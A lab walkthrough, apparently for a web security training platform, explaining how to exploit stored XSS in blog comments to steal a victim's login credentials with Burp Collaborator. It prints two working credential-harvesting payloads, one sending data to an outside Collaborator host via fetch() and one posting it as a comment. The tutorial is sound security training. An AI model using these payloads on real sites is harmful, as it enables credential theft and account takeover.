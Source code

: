 # 🛡️ Lab Guide: Exploiting Cross-Site Scripting to Capture Passwords

This guide shows how to exploit a **Cross-Site Scripting (XSS)** vulnerability to capture a victim’s username and password using **Burp Suite Professional**. You’ll use the Burp Collaborator to collect credentials stealthily. Let’s dive in! 🚀

---

## 📋 Objective
Exploit an XSS vulnerability in a blog comment system to capture a victim’s login credentials and send them to a Burp Collaborator server, then use the credentials to log in as the victim.

---

## 🛠️ Tools Needed
- **Burp Suite Professional** (with Burp’s browser and Collaborator)
- Basic understanding of XSS, HTTP requests, and form manipulation

---

## 📝 Step-by-Step Instructions

### 1️⃣ Set Up Burp Collaborator
- Open **Burp Suite Professional** and navigate to the **Collaborator** tab.
- Click **Copy to clipboard** to copy a unique **Burp collaborator subdomain** (e.g., `xyz.burpcollaborator.net`).

### 2️⃣ Craft the XSS Payload
- In **Burp’s browser**, navigate to a blog post (e.g., `https://YOUR-LAB-ID.web-security-academy.net/post?postId=3`) and access the comment submission form.
- Submit the following XSS payload in the comment field, replacing `BURP-COLLABORATOR-SUBDOMAIN` with your copied subdomain:
  ```html
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
      method:'POST',
      mode: 'no-cors',
      body:username.value+':'+this.value
  });">
  ```
- **Note**: This payload creates fake login fields that capture the victim’s username and password, sending them to the Collaborator server when the password field changes.

### 3️⃣ Capture the Victim’s Credentials
- Return to the **Collaborator** tab in Burp Suite and click **Poll now**.
- Wait a few seconds and check for an HTTP interaction. If none appears, poll again.
- **Observation**: The POST body contains the victim’s credentials (e.g., `administrator:kcrzjaueycdnb6vt2zm3`).

### 4️⃣ Log In as the Victim
- Use the captured credentials (e.g., username: `administrator`, password: `kcrzjaueycdnb6vt2zm3`) to log in via the login page (e.g., `https://YOUR-LAB-ID.web-security-academy.net/login`).
- **Observation**: Successful login confirms the credentials are valid, solving the lab.

### 5️⃣ Alternative Approach (Less Subtle)
- Instead of using Burp Collaborator, you could post the credentials as a blog comment:
  ```html
  <input type="text" name="username" id="username">
  <input type="password" name="password" onchange="
      if (this.value) {
          var token = document.getElementsByName('csrf')[0].value;
          var data = new FormData();
          data.append('csrf', token);
          data.append('postId', 3);
          data.append('comment', 'mohamedUsername=' + document.getElementById('username').value + '&mohamedPassword=' + this.value);
          data.append('name', 'victim');
          data.append('email', 'mohamed@gmail.com');
          data.append('website', 'https://mohamed.com');
          fetch('/post/comment', {
              method: 'POST',
              mode: 'no-cors',
              body: data
          });
      }
  ">
  ```
